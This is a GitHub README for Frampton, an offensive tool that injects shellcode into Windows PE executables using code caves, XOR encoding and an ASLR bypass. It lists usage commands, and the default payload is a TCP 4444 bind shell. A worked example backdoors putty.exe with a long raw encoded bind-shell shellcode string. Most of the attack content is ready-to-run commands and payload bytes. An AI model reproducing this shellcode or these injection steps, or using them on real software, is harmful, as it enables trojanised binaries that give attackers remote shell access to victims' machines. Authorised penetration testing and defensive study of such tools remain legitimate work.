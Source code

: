 # Frampton
[![GitHub pull-requests](https://img.shields.io/github/issues-pr/ins1gn1a/Frampton.svg)](https://GitHub.com/ins1gn1a/Frampton/pulls/)
[![GitHub contributors](https://img.shields.io/github/contributors/ins1gn1a/Frampton.svg)](https://GitHub.com/ins1gn1a/Frampton/graphs/contributors/)
[![GitHub issues](https://img.shields.io/github/issues/ins1gn1a/Frampton)](https://github.com/ins1gn1a/Frampton/issues)
[![GitHub stars](https://img.shields.io/github/stars/ins1gn1a/Frampton)](https://github.com/ins1gn1a/Frampton/stargazers)
[![GitHub license](https://img.shields.io/github/license/ins1gn1a/frampton)](https://github.com/ins1gn1a/Frampton/blob/master/LICENSE)

PE Binary Shellcode Injector - Automated code cave discovery, shellcode injection, ASLR bypass

## Install
`pip3 install -r requirements.txt`

## Usage
```
usage: frampton.py [-h] --file FILE [--shellcode SHELLCODE] [--output OUTFILE]
                   [--info] [--encoder] [--multi-encoder ENCODERMULTIPLE]

Frampton PE file Injector

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  Filename or path to base template PE file
  --shellcode SHELLCODE, -s SHELLCODE
                        Enter custom shellcode - architecture specific x86/x64
                        (optional) - Default: Windows x86 TCP 4444 Bind Shell
  --output OUTFILE, -o OUTFILE
                        Filename or path to new destination PE file (optional)
  --info, -i            Only display code cave information - does not inject
                        or modify (optional)
  --encoder, -e         Use built-in shellcode XOR encoder - x86 only
                        (optional)
  --multi-encoder ENCODERMULTIPLE, -m ENCODERMULTIPLE
                        Specify the number of auto-generated keys to encode
                        shellcode (optional)
```

#### Information Only (no injection)
```./frampton.py -f FILENAME.exe -i```

![Frampton Example](https://github.com/ins1gn1a/Frampton/blob/master/example2.png?raw=true)


#### Built-in basic bind shell (TCP 4444) 
```./frampton.py -f FILENAME.exe```

#### Built-in basic bind shell (TCP 4444) with XOR encoder
```./frampton.py -f FILENAME.exe -e```

#### Built-in basic bind shell (TCP 4444) with multiple XOR encoder
```./frampton.py -f FILENAME.exe -e -m 4```

#### Custom Shellcode Injector 
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE```

#### Custom Shellcode Injector with XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e```

#### Custom Shellcode Injector with multiple XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e -m 4```

## Example 

Encoding a 32-bit Putty PE file with Shikata_ga_nai encoding TCP bind shellcode, further encoding with 10 XOR keys.
```
./frampton.py -f putty.exe -e -m 10 -s "\xd9\xe8\xbd\xa0\xdb\xbd\x87\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x53\x83\xc0\x04\x31\x68\x13\x03\xc8\xc8\x5f\x72\xf4\x07\x1d\x7d\x04\xd8\x42\xf7\xe1\xe9\x42\x63\x62\x59\x73\xe7\x26\x56\xf8\xa5\xd2\xed\x8c\x61\xd5\x46\x3a\x54\xd8\x57\x17\xa4\x7b\xd4\x6a\xf9\x5b\xe5\xa4\x0c\x9a\x22\xd8\xfd\xce\xfb\x96\x50\xfe\x88\xe3\x68\x75\xc2\xe2\xe8\x6a\x93\x05\xd8\x3d\xaf\x5f\xfa\xbc\x7c\xd4\xb3\xa6\x61\xd1\x0a\x5d\x51\xad\x8c\xb7\xab\x4e\x22\xf6\x03\xbd\x3a\x3f\xa3\x5e\x49\x49\xd7\xe3\x4a\x8e\xa5\x3f\xde\x14\x0d\xcb\x78\xf0\xaf\x18\x1e\x73\xa3\xd5\x54\xdb\xa0\xe8\xb9\x50\xdc\x61\x3c\xb6\x54\x31\x1b\x12\x3c\xe1\x02\x03\x98\x44\x3a\x53\x43\x38\x9e\x18\x6e\x2d\x93\x43\xe7\x82\x9e\x7b\xf7\x8c\xa9\x08\xc5\x13\x02\x86\x65\xdb\x8c\x51\x89\xf6\x69\xcd\x74\xf9\x89\xc4\xb2\xad\xd9\x7e\x12\xce\xb1\x7e\x9b\x1b\x2f\x76\x3a\xf4\x52\x7b\xfc\xa4\xd2\xd3\x95\xae\xdc\x0c\x85\xd0\x36\x25\x2e\x2d\xb9\x58\xf3\xb8\x5f\x30\x1b\xed\xc8\xac\xd9\xca\xc0\x4b\x21\x39\x79\xfb\x6a\x2b\xbe\x04\x6b\x79\xe8\x92\xe0\x6e\x2c\x83\xf6\xba\x04\xd4\x61\x30\xc5\x97\x10\x45\xcc\x4f\xb0\xd4\x8b\x8f\xbf\xc4\x03\xd8\xe8\x3b\x5a\x8c\x04\x65\xf4\xb2\xd4\xf3\x3f\x76\x03\xc0\xbe\x77\xc6\x7c\xe5\x67\x1e\x7c\xa1\xd3\xce\x2b\x7f\x8d\xa8\x85\x31\x67\x63\x79\x98\xef\xf2\xb1\x1b\x69\xfb\x9f\xed\x95\x4a\x76\xa8\xaa\x63\x1e\x3c\xd3\x99\xbe\xc3\x0e\x1a\xce\x89\x12\x0b\x47\x54\xc7\x09\x0a\x67\x32\x4d\x33\xe4\xb6\x2e\xc0\xf4\xb3\x2b\x8c\xb2\x28\x46\x9d\x56\x4e\xf5\x9e\x72"
```
![Frampton Example](https://github.com/ins1gn1a/Frampton/blob/master/example.png?raw=true)
